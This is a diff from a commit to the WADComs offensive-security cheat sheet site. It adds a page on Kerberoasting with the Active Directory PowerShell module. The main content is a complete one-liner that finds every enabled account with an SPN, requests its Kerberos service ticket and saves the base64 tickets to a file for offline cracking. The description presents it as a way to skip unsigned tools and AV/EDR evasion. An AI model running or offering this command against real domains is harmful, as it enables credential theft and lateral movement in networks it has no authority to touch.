

Before and after one commit to WADComs/WADComs.github.io, a Jekyll site: the page built from _wadcoms/PSADmodule-Kerbaroasting.md, in a window 1280 px wide. Shown: the top 471 px of the page. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
PoC for offensive use of AD module

```diff
--- a/_wadcoms/PSADmodule-Kerbaroasting.md
+++ b/_wadcoms/PSADmodule-Kerbaroasting.md
@@ -1,2 +1,23 @@
 ---
-des
+description: |
+  Kerberoasting is the act of requesting service tickes for accounts that have an SPN set, and then attempting to crack those hashes offline.
+  This one liner using the powershell AD module serves less as a feasiable attack and more as a PoC that the AD module with some ingenuity
+  can be used to exploit many vectors within AD that you otherwise import tools that are not signed, need obfiscation, require AV/EDR bypass or other
+  steps that may trigger alerts.
+
+command: |
+  Get-ADUser -Filter {ServicePrincipalName -ne "$null" -and Enabled -eq $true} -Properties ServicePrincipalName | select -ExpandProperty ServicePrincipalName | % { $spn = $_; Add-Type -AssemblyName System.IdentityModel; $ticket = New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList $spn; $ticketBytes = $ticket.GetRequest(); $ticketBase64 = [System.Convert]::ToBase64String($ticketBytes); $account = (Get-ADUser -Filter {ServicePrincipalName -eq $spn} -Properties SamAccountName).SamAccountName; Write-Output "===== $account : $spn =====`n$ticketBase64" } | Out-File -FilePath "kerberos_tickets.txt" -Encoding ASCII
+
+items:
+  - powershell
+services:
+  - Kerberos
+OS:
+  - Windows
+
+attack_types:
+  - Exploitation
+references:
+  - https://github.com/samratashok/ADModule
+
+---
```
